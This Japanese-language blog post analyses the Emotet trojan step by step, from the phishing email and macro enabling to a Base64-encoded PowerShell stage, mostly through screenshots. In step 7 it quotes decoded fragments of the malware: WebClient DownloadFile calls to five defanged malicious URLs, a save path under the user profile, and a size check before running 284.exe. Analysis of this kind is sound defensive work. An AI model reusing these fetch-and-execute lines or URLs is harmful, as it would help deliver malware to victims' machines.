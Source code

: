 ```yaml
---
date: 2022-10-13T04:00:00
draft: false
title: "Emotet マルウェアの分析"
description: 
featured_image: "cdn/respond/emotet-malware-analysis-1.png"
tags: ["Emotet", "トロイの木馬", "PowerShell", "マルウェア", "サイバーセキュリティ"]
---
```


## Emotetとは？

- 主にメールを通じて拡散されるトロイの木馬
- 正規のメールのように偽装し、ユーザーに悪意のあるファイルをクリックさせる手法
- トロイの木馬を更新し、システムにアクセスを確立した後、運営者が追加ペイロードをダウンロードできるようにする「ローダー」型のマルウェア
- 感染したホストから銀行の資格情報を盗む、被害者から金銭を搾取することを目的に動作
<br>

<!--more-->

![emotet-malware-analysis](https://blog.plura.io/cdn/respond/emotet-malware-analysis-1.png)

## Emotet 実行/分析

### 1. ソーシャルエンジニアリング手法を用いて攻撃対象にメールを送信
![02](https://github.com/user-attachments/assets/5dae9811-e676-4697-b7ee-a84f229d9b2b)
<br><br>


### 2. 攻撃対象が疑わず添付ファイルをダウンロード
![03](https://github.com/user-attachments/assets/e647b197-5a0b-47da-abd9-f13709fc17fc)
<br><br>


### 3. ファイルを開き、マクロを実行するため「コンテンツの有効化」をクリック
![04](https://github.com/user-attachments/assets/7f4d218d-10d8-4d50-a008-31c9ee7e304f)
<br><br>


### 4. Base64でエンコードされたコードがPowerShellプロセスで実行される
![05](https://github.com/user-attachments/assets/80f38782-331a-49e3-aebc-9ba41e7a2c36)
<br><br>


### 5. PowerShellコマンドによってconhostが実行
![06](https://github.com/user-attachments/assets/86c4c82b-baae-45af-b68b-e9cea82786aa)

![07](https://github.com/user-attachments/assets/ad597df8-9608-4995-9dfa-b6b38545088e)
<br><br>


### 6. PowerShellスクリプトコードの実行
![08](https://github.com/user-attachments/assets/54c535af-f81f-44d5-870e-d7d9e5de3d84)
<br><br>


### 7. PowerShellスクリプトコードの分析
![09](https://github.com/user-attachments/assets/e875c2f5-5371-41d6-97ea-f31777ccc789)
<br>

1) 以下のURLからファイルをダウンロード
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxp://blockchainjoblist.com/wp-admin/014080/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://womenempowermentpakistan.com/wp-admin/paba5q52/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://atnimanvilla.com/wp-content/073735/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://yeuquynhnhai.com/upload/41830/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://deepikarai.com/js/4bzs6/)

2) 以下のパスにファイルを保存
$env:userprofile\284.exe

3) 23931バイト以上の場合実行
(Get-Item $env:userprofile\284.exe).LeNgTh -ge 23931

<br>

### 8. ユーザーフォルダーにファイル生成
![010](https://github.com/user-attachments/assets/c0522f7e-2c7c-4751-90c5-a3780de0902b)

![011](https://github.com/user-attachments/assets/3bf9893f-d832-4331-bc2b-5be171e84f9e)

![012](https://github.com/user-attachments/assets/773bc501-4236-4bbc-9766-510595828a77)
<br>

📖 一緒に読む
- [wikipedia_Emotet](https://en.wikipedia.org/wiki/Emotet)
- [malwarebytes_Emotet](https://www.malwarebytes.com/emotet)
